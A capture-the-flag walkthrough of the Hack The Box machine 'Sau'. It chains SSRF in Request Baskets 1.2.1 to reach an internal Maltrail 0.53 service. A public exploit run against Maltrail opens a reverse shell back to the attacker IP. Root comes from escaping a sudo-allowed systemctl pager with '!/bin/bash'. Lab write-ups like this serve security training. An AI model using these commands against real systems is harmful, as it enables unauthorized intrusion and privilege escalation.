



# Sau

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-linux: Linux</span>
<span class="wu-badge wu-diff wu-diff--easy">Easy</span>
<span class="wu-tags">
<span class="wu-tag">SSRF</span>
<span class="wu-tag">Maltrail</span>
<span class="wu-tag">systemctl pager</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    Sau turns a request-forwarding feature into access to an internal service. Once Maltrail provided a shell, the escalation was short: an interactive pager inherited the privileges of an allowed systemctl command.

## Attack path

1. Confirm basket forwarding and proxy the internal HTTP service.
2. Exploit Maltrail 0.53 through the basket URL for a shell as Puma.
3. Open the allowed systemctl status command and escape its privileged pager.

[HTB machine](https://app.hackthebox.com/machines/551) · [Official retirement evidence](https://labs.hackthebox.com/achievement/machine/2048041/551) (checked November 17, 2026).

## Enumeration

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.224 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

nmap -p$ports -sV 10.10.11.224
```

<figure class="wu-evidence" markdown>

<figcaption>Nmap identifies the exposed request-basket service.</figcaption>
</figure>

Notice an interesting port `55555`. Let's navigate to this site: `http://10.10.11.224:55555`

Notice the service "Request Baskets" is running on this port. We can observe the bottom of the page, or source code, to additionally notice version 1.2.1 is running.

## Foothold
A quick Google search for "Request Baskets 1.2.1 exploit" shows us the following PoC SSRF exploit:
[Reference](https://github.com/rvizx/CVE-2023-27163)

The above vulnerability takes advantage of the `/api/baskets/{name}` component of the application, allowing us to access network resources and sensitive information.

To exploit this vulnerability, create a new bucket on the site's homepage.

Next, start an NC listener on port 80 (this will test if the exploit is vulnerable).

Go back into the application bucket we just created and click the cog icon. Edit the **Forward URL** to our machine IP `http://10.10.14.3`. 

Let's now try to send a GET request and see if we receive anything on our NC listener:
```bash
curl http://10.10.11.224:55555/{bucket_ID}
```

We should see in the NC listener that we did receive the request. 

Now that we know the instance is vulnerable AND nmap showed us port `80` is opened, let's edit our **Forwarded URL** again to the following: `http://127.0.0.1:80`. Additionally, check both boxes for **Proxy Response** and **Expand Forward Path**.

Once we click **Apply**, simply try to visit the following URL: `http://10.10.11.224:55555/{bucket_id}`

Here, we see another service running on port `80`: Maltrail (v0.53)

Another quick Google search for this service shows the following PoC:
[Reference](https://github.com/spookier/Maltrail-v0.53-Exploit)

Download the PoC and use the following to obtain a shell:

1. Start an NC listener on port `1337`
2. `python3 exploit.py 10.10.14.3 1337 http://10.10.11.224:55555/jokhq3o`

We should now have our Foothold! 

Use the following to upgrade TTY:
```text
script /dev/null -c bash
# Ctrl + z
stty -raw echo; fg
# Enter (Return) x2
```

The `user.txt` flag can be found at `/home/puma/user.txt`
## Privilege Escalation
First, let's check our sudo privileges:
```bash
sudo -l
```

<figure class="wu-evidence" markdown>

<figcaption>Puma can run the trail service status command through sudo.</figcaption>
</figure>

Take note of the `systemctl` version as well:

<figure class="wu-evidence" markdown>

<figcaption>The systemctl binary reports the captured systemd version.</figcaption>
</figure>

With this information, Google will tell us that this version of `systemctl` is vulnerable to CVE-2023-26604 - a privilege escalation vulnerability due to `systemd` not setting LESSSECURE to 1. 

To exploit this, simply use the following:
```bash
sudo /usr/bin/systemctl status trail.service
...
-  (press RETURN)!/bin/bash
```
**Note**: above, when asked to press `RETURN`, we need to instead use `!/bin/bash` to open a shell as root.

This will give us root access to the box !

## Lessons learned

A forwarding feature can expose services that the initial network scan cannot reach directly. An interactive pager inside an allowed privileged status command can then defeat an otherwise narrow sudo rule.
